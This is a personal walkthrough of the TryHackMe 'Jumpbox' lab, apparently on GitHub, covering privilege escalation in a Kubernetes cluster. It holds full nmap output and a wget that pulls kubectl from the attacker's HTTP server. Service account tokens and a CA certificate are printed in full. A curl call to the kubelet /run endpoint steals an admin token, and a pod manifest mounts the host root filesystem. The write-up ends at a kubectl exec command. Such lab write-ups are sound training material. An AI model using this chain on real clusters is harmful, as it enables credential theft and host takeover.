# Jumpbox THM




### interesting nmap results 

```
root@kali:~# nmap -sC -sV -v -Pn -F jump -oA jumpbox_initial
Starting Nmap 7.80 ( https://nmap.org ) at 2022-09-26 17:49 UTC

Discovered open port 22/tcp on 10.10.195.238
Discovered open port 80/tcp on 10.10.195.238
Discovered open port 8443/tcp on 10.10.195.238
22/tcp   open  ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                         
80/tcp   open  http          GoTTY                                                                                
| fingerprint-strings:                                                                                            
|   GetRequest, HTTPOptions:                                                                                      
|     HTTP/1.0 200 OK                                                                                             
|     Server: GoTTY                                                                                               
|     Vary: Accept-Encoding                                                                                       
|     Date: Mon, 26 Sep 2022 17:49:34 GMT                                                                         
|     Content-Length: 511                                                                                         
|     Content-Type: text/html; charset=utf-8                                                                      
|     <!doctype html>                                                                                             
|     <html>                                                                                                      
|     <head>                                                                                                      
|     <title>/bin/sh@jumpbox-6c7549477c-dht4f</title>                                                             
|     <link rel="icon" type="image/png" href="favicon.png">                                                       
|     <link rel="stylesheet" href="./css/index.css" />
|     <link rel="stylesheet" href="./css/xterm.css" />
|     <link rel="stylesheet" href="./css/xterm_customize.css" />
|     </head>
|     <body>
|     <div id="terminal"></div>
|     <script src="./auth_token.js"></script>
|     <script src="./config.js"></script>
|     <script src="./js/gotty-bundle.js"></script>
|     </body>
|     </html>
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|_    Request
|_http-favicon: Unknown favicon MD5: BDE0B645779BAA2BECEB4A44EE065119
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: GoTTY
|_http-title: /bin/sh@jumpbox-6c7549477c-dht4f
8443/tcp open  ssl/https-alt:
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port80-TCP:V=7.80%I=7%D=9/26%Time=6331E62E%P=x86_64-pc-linux-gnu%r(GetR
SF:equest,29A,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20GoTTY\r\nVary:\x20Acce
SF:pt-Encoding\r\nDate:\x20Mon,\x2026\x20Sep\x202022\x2017:49:34\x20GMT\r\
SF:nContent-Length:\x20511\r\nContent-Type:\x20text/html;\x20charset=utf-8
SF:\r\n\r\n<!doctype\x20html>\n<html>\n\x20\x20<head>\n\x20\x20\x20\x20<ti
SF:tle>/bin/sh@jumpbox-6c7549477c-dht4f</title>\n\x20\x20\x20\x20<link\x20
SF:rel=\"icon\"\x20type=\"image/png\"\x20href=\"favicon\.png\">\n\x20\x20\
SF:x20\x20<link\x20rel=\"stylesheet\"\x20href=\"\./css/index\.css\"\x20/>\
SF:n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"\./css/xterm\.cs
SF:s\"\x20/>\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"\./css
SF:/xterm_customize\.css\"\x20/>\n\x20\x20</head>\n\x20\x20<body>\n\x20\x2
SF:0\x20\x20<div\x20id=\"terminal\"></div>\n\x20\x20\x20\x20<script\x20src
SF:=\"\./auth_token\.js\"></script>\n\x20\x20\x20\x20<script\x20src=\"\./c
SF:onfig\.js\"></script>\n\x20\x20\x20\x20<script\x20src=\"\./js/gotty-bun
SF:dle\.js\"></script>\n\x20\x20</body>\n</html>\n")%r(HTTPOptions,29A,"HT
SF:TP/1\.0\x20200\x20OK\r\nServer:\x20GoTTY\r\nVary:\x20Accept-Encoding\r\
SF:nDate:\x20Mon,\x2026\x20Sep\x202022\x2017:49:34\x20GMT\r\nContent-Lengt
SF:h:\x20511\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\n\r\n<!doct
SF:ype\x20html>\n<html>\n\x20\x20<head>\n\x20\x20\x20\x20<title>/bin/sh@ju
SF:mpbox-6c7549477c-dht4f</title>\n\x20\x20\x20\x20<link\x20rel=\"icon\"\x
SF:20type=\"image/png\"\x20href=\"favicon\.png\">\n\x20\x20\x20\x20<link\x
SF:20rel=\"stylesheet\"\x20href=\"\./css/index\.css\"\x20/>\n\x20\x20\x20\
SF:x20<link\x20rel=\"stylesheet\"\x20href=\"\./css/xterm\.css\"\x20/>\n\x2
SF:0\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"\./css/xterm_customi
SF:ze\.css\"\x20/>\n\x20\x20</head>\n\x20\x20<body>\n\x20\x20\x20\x20<div\
SF:x20id=\"terminal\"></div>\n\x20\x20\x20\x20<script\x20src=\"\./auth_tok
SF:en\.js\"></script>\n\x20\x20\x20\x20<script\x20src=\"\./config\.js\"></
SF:script>\n\x20\x20\x20\x20<script\x20src=\"\./js/gotty-bundle\.js\"></sc
SF:ript>\n\x20\x20</body>\n</html>\n")%r(RTSPRequest,67,"HTTP/1\.1\x20400\
SF:x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nC
SF:onnection:\x20close\r\n\r\n400\x20Bad\x20Request");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port8443-TCP:V=7.80%T=SSL%I=7%D=9/26%Time=6331E634%P=x86_64-pc-linux-gn
SF:u%r(GetRequest,22F,"HTTP/1\.0\x20403\x20Forbidden\r\nAudit-Id:\x20b5217
SF:099-0a88-4a5f-acbb-22b8266588b2\r\nCache-Control:\x20no-cache,\x20priva
SF:te\r\nContent-Type:\x20application/json\r\nX-Content-Type-Options:\x20n
SF:osniff\r\nX-Kubernetes-Pf-Flowschema-Uid:\x20a5c8dc51-1beb-4524-9996-fc
SF:bdf17ad8d9\r\nX-Kubernetes-Pf-Prioritylevel-Uid:\x209a40dace-d4fe-4ce4-
SF:8625-787c338bd84b\r\nDate:\x20Mon,\x2026\x20Sep\x202022\x2017:49:40\x20
SF:GMT\r\nContent-Length:\x20185\r\n\r\n{\"kind\":\"Status\",\"apiVersion\
SF:":\"v1\",\"metadata\":{},\"status\":\"Failure\",\"message\":\"forbidden
SF::\x20User\x20\\\"system:anonymous\\\"\x20cannot\x20get\x20path\x20\\\"/
SF:\\\"\",\"reason\":\"Forbidden\",\"details\":{},\"code\":403}\n")%r(HTTP
SF:Options,233,"HTTP/1\.0\x20403\x20Forbidden\r\nAudit-Id:\x2016f52c50-040
SF:e-45e5-abaa-79ec6883debf\r\nCache-Control:\x20no-cache,\x20private\r\nC
SF:ontent-Type:\x20application/json\r\nX-Content-Type-Options:\x20nosniff\
SF:r\nX-Kubernetes-Pf-Flowschema-Uid:\x20a5c8dc51-1beb-4524-9996-fcbdf17ad
SF:8d9\r\nX-Kubernetes-Pf-Prioritylevel-Uid:\x209a40dace-d4fe-4ce4-8625-78
SF:7c338bd84b\r\nDate:\x20Mon,\x2026\x20Sep\x202022\x2017:49:40\x20GMT\r\n
SF:Content-Length:\x20189\r\n\r\n{\"kind\":\"Status\",\"apiVersion\":\"v1\
SF:",\"metadata\":{},\"status\":\"Failure\",\"message\":\"forbidden:\x20Us
SF:er\x20\\\"system:anonymous\\\"\x20cannot\x20options\x20path\x20\\\"/\\\
SF:"\",\"reason\":\"Forbidden\",\"details\":{},\"code\":403}\n")%r(FourOhF
SF:ourRequest,24A,"HTTP/1\.0\x20403\x20Forbidden\r\nAudit-Id:\x20cc593be9-
SF:2d14-4014-9438-2019a5d3b5bb\r\nCache-Control:\x20no-cache,\x20private\r
SF:\nContent-Type:\x20application/json\r\nX-Content-Type-Options:\x20nosni
SF:ff\r\nX-Kubernetes-Pf-Flowschema-Uid:\x20a5c8dc51-1beb-4524-9996-fcbdf1
SF:7ad8d9\r\nX-Kubernetes-Pf-Prioritylevel-Uid:\x209a40dace-d4fe-4ce4-8625
SF:-787c338bd84b\r\nDate:\x20Mon,\x2026\x20Sep\x202022\x2017:49:40\x20GMT\
SF:r\nContent-Length:\x20212\r\n\r\n{\"kind\":\"Status\",\"apiVersion\":\"
SF:v1\",\"metadata\":{},\"status\":\"Failure\",\"message\":\"forbidden:\x2
SF:0User\x20\\\"system:anonymous\\\"\x20cannot\x20get\x20path\x20\\\"/nice
SF:\x20ports,/Trinity\.txt\.bak\\\"\",\"reason\":\"Forbidden\",\"details\"
SF::{},\"code\":403}\n");

```
### kubernetes on 8443 
```
SF-Port8443-TCP:V=7.80%T=SSL%I=7%D=9/26%Time=6331E634%P=x86_64-pc-linux-gn
SF:u%r(GetRequest,22F,"HTTP/1\.0\x20403\x20Forbidden\r\nAudit-Id:\x20b5217
SF:099-0a88-4a5f-acbb-22b8266588b2\r\nCache-Control:\x20no-cache,\x20priva
SF:te\r\nContent-Type:\x20application/json\r\nX-Content-Type-Options:\x20n
SF:osniff\r\nX-Kubernetes-Pf-Flowschema-Uid:\x20a5c8dc51-1beb-4524-9996-fc
SF:bdf17ad8d9\r\nX-Kubernetes-Pf-Prioritylevel-Uid:\x209a40dace-d4fe-4ce4-
SF:8625-787c338bd84b\r\nDate:\x20Mon,\x2026\x20Sep\x202022\x2017:49:40\x20
SF:GMT\r\nContent-Length:\x20185\r\n\r\n{\"kind\":\"Status\",\"apiVersion\
SF:":\"v1\",\"metadata\":{},\"status\":\"Failure\",\"message\":\"forbidden
SF::\x20User\x20\\\"system:anonymous\\\"\x20cannot\x20get\x20path\x20\\\"/
SF:\\\"\",\"reason\":\"Forbidden\",\"details\":{},\"code\":403}\n")%r(HTTP
SF:Options,233,"HTTP/1\.0\x20403\x20Forbidden\r\nAudit-Id:\x2016f52c50-040
SF:e-45e5-abaa-79ec6883debf\r\nCache-Control:\x20no-cache,\x20private\r\nC
SF:ontent-Type:\x20application/json\r\nX-Content-Type-Options:\x20nosniff\
SF:r\nX-Kubernetes-Pf-Flowschema-Uid:\x20a5c8dc51-1beb-4524-9996-fcbdf17ad
SF:8d9\r\nX-Kubernetes-Pf-Prioritylevel-Uid:\x209a40dace-d4fe-4ce4-8625-78
SF:7c338bd84b\r\nDate:\x20Mon,\x2026\x20Sep\x202022\x2017:49:40\x20GMT\r\n
SF:Content-Length:\x20189\r\n\r\n{\"kind\":\"Status\",\"apiVersion\":\"v1\
SF:",\"metadata\":{},\"status\":\"Failure\",\"message\":\"forbidden:\x20Us
SF:er\x20\\\"system:anonymous\\\"\x20cannot\x20options\x20path\x20\\\"/\\\
SF:"\",\"reason\":\"Forbidden\",\"details\":{},\"code\":403}\n")%r(FourOhF
SF:ourRequest,24A,"HTTP/1\.0\x20403\x20Forbidden\r\nAudit-Id:\x20cc593be9-
SF:2d14-4014-9438-2019a5d3b5bb\r\nCache-Control:\x20no-cache,\x20private\r
SF:\nContent-Type:\x20application/json\r\nX-Content-Type-Options:\x20nosni
SF:ff\r\nX-Kubernetes-Pf-Flowschema-Uid:\x20a5c8dc51-1beb-4524-9996-fcbdf1
SF:7ad8d9\r\nX-Kubernetes-Pf-Prioritylevel-Uid:\x209a40dace-d4fe-4ce4-8625
SF:-787c338bd84b\r\nDate:\x20Mon,\x2026\x20Sep\x202022\x2017:49:40\x20GMT\
SF:r\nContent-Length:\x20212\r\n\r\n{\"kind\":\"Status\",\"apiVersion\":\"
SF:v1\",\"metadata\":{},\"status\":\"Failure\",\"message\":\"forbidden:\x2
SF:0User\x20\\\"system:anonymous\\\"\x20cannot\x20get\x20path\x20\\\"/nice
SF:\x20ports,/Trinity\.txt\.bak\\\"\",\"reason\":\"Forbidden\",\"details\"
```
### port 80 
```
port 80 gives us a web console 

```


### port 8443
```
This looks like an exposed api 
```


### Kubernetes 
```
I've never really used Kubernete, more of a docker guy so over to google to start leaning 

Useful Cheatsheet 
https://kubernetes.io/docs/reference/kubectl/cheatsheet/

Some Auth cheatsheet 
https://kubernetes.io/docs/reference/access-authn-authz/authentication/

Interacting with pods 
https://www.ibm.com/docs/en/fci/1.1.0?topic=kubernetes-accessing-docker-container-in

```
```
so first thing I noticed after reading some decent kubernetes docs and articles is we need something like kubectl to run commands like docker uses docker as a indicator that we want to interact with docker 
i.e. docker ps will list containers running in docker 
```
### kubectl
```
which kubectl nothing there, after finding a page on how to install 

https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/

Then realised we couldnt download into the box directly, so needed to think outside the box (sorry for the pun!)

Over to the attack box (I use the Kali attack box I fel it has more functionality)

So download kubectl to attack box using the curl command below 

curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
```
```
Now need to host this on a http server 

Attack Box

python 3 -m http.server 8081 

console (Victim)

cd /tmp

wget http://<attackboixip>:8081/kubectl

make it executable >

 chmod 777 kubectl 

use ./kubectl 

kubectl cheatsheet
https://kubernetes.io/docs/reference/kubectl/cheatsheet/
```


### Using kubectl

```
Again the ablve cheatsheets helped me alot lets see whatg we have 

./kubectl get pods 

```
### More kubectl learning later 
```
Spent some time on this section finally got something

./kubectl get pods --all-namespaces 
```
```
jumpbox-6c7549477c-dht4f   1/1     Running   1 (204d ago)   205d
/tmp $ ./kubectl get pods --all-namespaces
NAMESPACE     NAME                               READY   STATUS    RESTARTS        AGE
default       jumpbox-6c7549477c-dht4f           1/1     Running   1 (204d ago)    205d
kube-system   coredns-78fcd69978-ttkch           1/1     Running   14 (204d ago)   262d
kube-system   etcd-minikube                      1/1     Running   14 (204d ago)   262d
kube-system   jumpbox-admin-7d56d4b67d-tcpt6     1/1     Running   1 (204d ago)    204d
kube-system   kube-apiserver-minikube            1/1     Running   14 (204d ago)   262d
kube-system   kube-controller-manager-minikube   1/1     Running   14 (204d ago)   262d
kube-system   kube-proxy-bglvb                   1/1     Running   14 (204d ago)   262d
kube-system   kube-scheduler-minikube            1/1     Running   14 (204d ago)   262d
kube-system   storage-provisioner                1/1     Running   24 (36m ago)    262d


I'm guessing this one is the one im interested in :  jumpbox-admin-7d56d4b67d-tcpt6 

```
```
So went in on one trying to start a pod and attacxh /root to it but got no where fast, reading some bits i realised i needed a token to escalate some privleges 
```
### Googling kubernetes token location 
```
I found something interesting 

/var/run/secrets/kubernetes.io/serviceaccount/token
```


### kubernetes interesting files

```
so two files exist ca.crt & token 
```

```
ca.crt

-----BEGIN CERTIFICATE-----
MIIDBjCCAe6gAwIBAgIBATANBgkqhkiG9w0BAQsFADAVMRMwEQYDVQQDEwptaW5p
a3ViZUNBMB4XDTIyMDEwNTIwMTgyM1oXDTMyMDEwNDIwMTgyM1owFTETMBEGA1UE
AxMKbWluaWt1YmVDQTCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAN1T
YzgsOlboYP3wxW+9b0dT2XhSqCJAk4D/IVxFC/sVBTf1mePaqSRyeIsGY1TiOzY1
T1V0CMavDKWhaG8SdnRbPT/pDoVLKv+HFgpurh5m8nTJoEIQIrM30zGzwQ+sVMZJ
e5IqqfaHw7eBVBWfex5wmtJ1BhKDUJlG4cNrEDi+z29qD8OZVQxuKsYtvym87SZA
UZf6hbsUqIXhP6m1DOJGrTr0hEy6CsfCm78DH6oZtpLzMtRSP1gYDu6KrpyeOWz3
4jdKX+CRmprp/95JSJPbZ9luYpdCjgzAKZkWKgaPnGpoO6TZrTwacjvu0qTFk8cq
AxzBkH0huspRGDEIUhcCAwEAAaNhMF8wDgYDVR0PAQH/BAQDAgKkMB0GA1UdJQQW
MBQGCCsGAQUFBwMCBggrBgEFBQcDATAPBgNVHRMBAf8EBTADAQH/MB0GA1UdDgQW
BBTwCj9T5f5vOQrHkAJ01N5+hYMuEDANBgkqhkiG9w0BAQsFAAOCAQEAb7I4l8LQ
++Xy+Dcvj8YW9GenU3W76no9YbATK/NtqOemru21I8yD42x12UZ7xCovn5ea1MCg
tP8y+oSAQdoOt8JO2GrD/7xy64yfLJ5hqYUiJz6BCOF1576kQZI0JwB6XCXSZSwh
Jw8dcrsOMQsxOf6QdoyZ2zNUCknMm3hpUEF8xwQmWL7uo+C0EGpSJvlOKHVbZh3e
SGKvzvk7GSKTJF5FgI4G8X5/JVmDdN9Mk3kl8PKFNP6SGAIWolFMsA9iCxou1Apa
5zfKX918bnNqKmDFIJOdjadvOl8oNcCg1GaA4htOV+sFk3zxCNNGW3i+c97J1EQm
VeBlHLi+W+gtHw==
-----END CERTIFICATE-----
```
```
token 

eyJhbGciOiJSUzI1NiIsImtpZCI6Im82QU1WNV9qNEIwYlV3YnBGb1NXQ25UeUtmVzNZZXZQZjhPZUtUb21jcjQifQ.eyJhdWQiOlsiaHR0cHM6Ly9rdWJlcm5ldGVzLmRlZmF1bHQuc3ZjLmNsdXN0ZXIubG9jYWwiXSwiZXhwIjoxNjk1ODAwOTM1LCJpYXQiOjE2NjQyNjQ5MzUsImlzcyI6Imh0dHBzOi8va3ViZXJuZXRlcy5kZWZhdWx0LnN2Yy5jbHVzdGVyLmxvY2FsIiwia3ViZXJuZXRlcy5pbyI6eyJuYW1lc3BhY2UiOiJkZWZhdWx0IiwicG9kIjp7Im5hbWUiOiJqdW1wYm94LTZjNzU0OTQ3N2MtZGh0NGYiLCJ1aWQiOiJhY2MwYTcwNS1kY2UzLTQxYzItYmFiYy0xNmZmYjExOWM1MzkifSwic2VydmljZWFjY291bnQiOnsibmFtZSI6Im5vZGVwcm94eSIsInVpZCI6IjVmZmZlOGI4LWIyOTYtNGQ2NS1iYzc4LTA2N2Y3MDg3YzNkYyJ9LCJ3YXJuYWZ0ZXIiOjE2NjQyNjg1NDJ9LCJuYmYiOjE2NjQyNjQ5MzUsInN1YiI6InN5c3RlbTpzZXJ2aWNlYWNjb3VudDpkZWZhdWx0Om5vZGVwcm94eSJ9.DUAlboILjKmA0oYrNA1DIIUKdEESHqrMNE3uP_O0amFQq3VuyLtHU6VSi68lq0HYn6BmCLlieCDIrKvu5Oys1gnMCPQTxgl1W4F2etNOluQB9eJh3OKuetZlKl17rwU4T99bbYPtrluieQFbGeB-B19Wtkv63ZZFy2wwHh8iJYghRwEJvodRas7a0a46qTf3q8bFavpI7fgbHqWmZnGn9En2mEp37Bus8T9_-sgD55P9Qk9b2amvEEw-xwLEVAm-4epkTCcz3Mz_u10zIQUOl4V0_P-rahPGslTPGGcDUg8bm2mPUIv3noBGACvsKvS2A7IIWwnGWiX0Zexrs5L16A

```
### exploit
```
I spent some time going through different attack vectors 

I exported the token 

export token=eyJhbGciOiJSUzI1NiIsImtpZCI6Im82QU1WNV9qNEIwYlV3YnBGb1NXQ25UeUtmVzNZZXZQZjhPZUtUb21jcjQifQ.eyJhdWQiOlsiaHR0cHM6Ly9rdWJlcm5ldGVzLmRlZmF1bHQuc3ZjLmNsdXN0ZXIubG9jYWwiXSwiZXhwIjoxNjk1ODAwOTM1LCJpYXQiOjE2NjQyNjQ5MzUsImlzcyI6Imh0dHBzOi8va3ViZXJuZXRlcy5kZWZhdWx0LnN2Yy5jbHVzdGVyLmxvY2FsIiwia3ViZXJuZXRlcy5pbyI6eyJuYW1lc3BhY2UiOiJkZWZhdWx0IiwicG9kIjp7Im5hbWUiOiJqdW1wYm94LTZjNzU0OTQ3N2MtZGh0NGYiLCJ1aWQiOiJhY2MwYTcwNS1kY2UzLTQxYzItYmFiYy0xNmZmYjExOWM1MzkifSwic2VydmljZWFjY291bnQiOnsibmFtZSI6Im5vZGVwcm94eSIsInVpZCI6IjVmZmZlOGI4LWIyOTYtNGQ2NS1iYzc4LTA2N2Y3MDg3YzNkYyJ9LCJ3YXJuYWZ0ZXIiOjE2NjQyNjg1NDJ9LCJuYmYiOjE2NjQyNjQ5MzUsInN1YiI6InN5c3RlbTpzZXJ2aWNlYWNjb3VudDpkZWZhdWx0Om5vZGVwcm94eSJ9.DUAlboILjKmA0oYrNA1DIIUKdEESHqrMNE3uP_O0amFQq3VuyLtHU6VSi68lq0HYn6BmCLlieCDIrKvu5Oys1gnMCPQTxgl1W4F2etNOluQB9eJh3OKuetZlKl17rwU4T99bbYPtrluieQFbGeB-B19Wtkv63ZZFy2wwHh8iJYghRwEJvodRas7a0a46qTf3q8bFavpI7fgbHqWmZnGn9En2mEp37Bus8T9_-sgD55P9Qk9b2amvEEw-xwLEVAm-4epkTCcz3Mz_u10zIQUOl4V0_P-rahPGslTPGGcDUg8bm2mPUIv3noBGACvsKvS2A7IIWwnGWiX0Zexrs5L16A

now with this all i had to do was call $token ... RIGHT!
```
### NO
```
./kubectl get pods --token=$token gave me the same as before one running pod 

NAME                       READY   STATUS    RESTARTS       AGE
jumpbox-6c7549477c-dht4f   1/1     Running   1 (204d ago)   206d

no good to me 
```
### api exploit 
```
Googled around and found a decent writeup on how to exploit the API port using tokens

https://blog.aquasec.com/privilege-escalation-kubernetes-rbac


```


```

In the video he shows how the exploit works

after more googling to see what /kube-system/cilium-2vb9h/clilium-agent meant i found a way to print out in yaml 

./kubectl get nodes -o yaml 

apiVersion: v1
items:
- apiVersion: v1
  kind: Node
  metadata:
    annotations:
      kubeadm.alpha.kubernetes.io/cri-socket: /var/run/dockershim.sock
      node.alpha.kubernetes.io/ttl: "0"
      volumes.kubernetes.io/controller-managed-attach-detach: "true"
    creationTimestamp: "2022-01-06T23:39:17Z"
    labels:
      beta.kubernetes.io/arch: amd64
      beta.kubernetes.io/os: linux
      kubernetes.io/arch: amd64
      kubernetes.io/hostname: minikube
      kubernetes.io/os: linux
      minikube.k8s.io/commit: 76b94fb3c4e8ac5062daf70d60cf03ddcc0a741b
      minikube.k8s.io/name: minikube
      minikube.k8s.io/updated_at: 2022_01_06T23_39_20_0700
      minikube.k8s.io/version: v1.24.0
      node-role.kubernetes.io/control-plane: ""
      node-role.kubernetes.io/master: ""
      node.kubernetes.io/exclude-from-external-load-balancers: ""
    name: minikube
    resourceVersion: "49150"
    uid: 51d308c4-5863-4337-a053-62dd223def84
  spec:
    podCIDR: 10.244.0.0/24
    podCIDRs:
    - 10.244.0.0/24
  status:
    addresses:
    - address: 192.168.49.2
      type: InternalIP
    - address: minikube
      type: Hostname
    allocatable:
      cpu: "2"
      ephemeral-storage: 19475088Ki
- nodes.yaml 1/172 0%
```

```
So /kube-system/cilium-2vb9h/clilium-agent in my system is 


curl -k -H "Authorization: Bearer $token" -XPOST https://172.17.0.4:10250/run/kube-system/jumpbox-admin-7d56d4b67d-tcpt6/ubuntu -d "cmd=cat /run/secrets/kubernetes.io/serviceaccount/token"

however it failed and I only by chance seen i was using the wrong ip address 

- working 
curl -k -H "Authorization: Bearer $token" -XPOST https://172.17.0.1:10250/run/kube-system/jumpbox-admin-7d56d4b67d-tcpt6/ubuntu -d "cmd=cat /run/secrets/kubernetes.io/serviceaccount/token"

```

```
eyJhbGciOiJSUzI1NiIsImtpZCI6Im82QU1WNV9qNEIwYlV3YnBGb1NXQ25UeUtmVzNZZXZQZjhPZUtUb21jcjQifQ.eyJhdWQiOlsiaHR0cHM6Ly9rdWJlcm5ldGVzLmRlZmF1bHQuc3ZjLmNsdXN0ZXIubG9jYWwiXSwiZXhwIjoxNjk1ODAzODYxLCJpYXQiOjE2NjQyNjc4NjEsImlzcyI6Imh0dHBzOi8va3ViZXJuZXRlcy5kZWZhdWx0LnN2Yy5jbHVzdGVyLmxvY2FsIiwia3ViZXJuZXRlcy5pbyI6eyJuYW1lc3BhY2UiOiJrdWJlLXN5c3RlbSIsInBvZCI6eyJuYW1lIjoianVtcGJveC1hZG1pbi03ZDU2ZDRiNjdkLXRjcHQ2IiwidWlkIjoiYjdhNjliYTAtOTJiZC00OTEzLWEwODctM2EwYjExMWQ1NzgyIn0sInNlcnZpY2VhY2NvdW50Ijp7Im5hbWUiOiJhZG1pbiIsInVpZCI6ImY5MTI1N2ZjLWJmMjQtNGJiYS04OTZkLWZlYjdkOWM2NzU1MiJ9LCJ3YXJuYWZ0ZXIiOjE2NjQyNzE0Njh9LCJuYmYiOjE2NjQyNjc4NjEsInN1YiI6InN5c3RlbTpzZXJ2aWNlYWNjb3VudDprdWJlLXN5c3RlbTphZG1pbiJ9.AQvWmRcb8TbCk7Cy5nrFA755zalJ5tvSfSj4ObRldnNURb8cb-iZx9MU2C5ZAln-T_H_Swiw6wW9MVVW22wqIQ2vP08DJEqbHPCj5k51KWztezRwmO-lsLTQ479EBfYroQNte3Ew-8BaTS332USW0P1ybcMPeNJHqY1cwyhmkHtBCK3u0sENvjcOq9hQ6dEvw6GoA3JFaMJsh2rK8fiPYMvBucVhlFs9Pp57uobt7rei-HMkqT_d66Cb_LMN-xNL2ZkfsbJQ27SSLM4VgfJCBdsA4u2MfnQKlwIFVuTYfTsvR0ZQsL-NAQdD_fAVK1ceJxeV08T71oI4L8oWQbm0Ug

```
### Admin token
```
Now with the admin token we should be able to create pods 

Found this regarding badpods 

https://pulsesecurity.co.nz/advisories/microk8s-privilege-escalation

```
```
Export he admin token same way as before 

apiVersion: v1
kind: Pod
metadata:
  name: hostmount
spec:
  containers:
  - name: shell
    image: ubuntu:latest
    command:
      - "bin/bash"
      - "-c"
      - "sleep 10000"
    volumeMounts:
      - name: root
        mountPath: /opt/root
  volumes:
  - name: root
    hostPath:
      path: /
      type: Directory
```
```
I used the above and the pod failed to load, i found out it couldn't pull the ubuntu:latest images so i edited the yaml to one of the current images within the system 


apiVersion: v1
kind: Pod
metadata:
  name: hostmount
spec:
  containers:
  - name: shell
    image: linuxserver/openssh-server@sha256:14b87b54649dcee60a173a6a73a4c72e9eb9f9056ce9072812a6248f23d4d715
    command:
      - "bin/bash"
      - "-c"
      - "sleep 10000"
    volumeMounts:
      - name: root
        mountPath: /opt/root
  volumes:
  - name: root
    hostPath:
      path: /
      type: Directory
```
 


### interacting with the pod 
```
Just like Docker witrh some added annoying bits 

./kubectl exec -it hostmount -- sh --token=$token

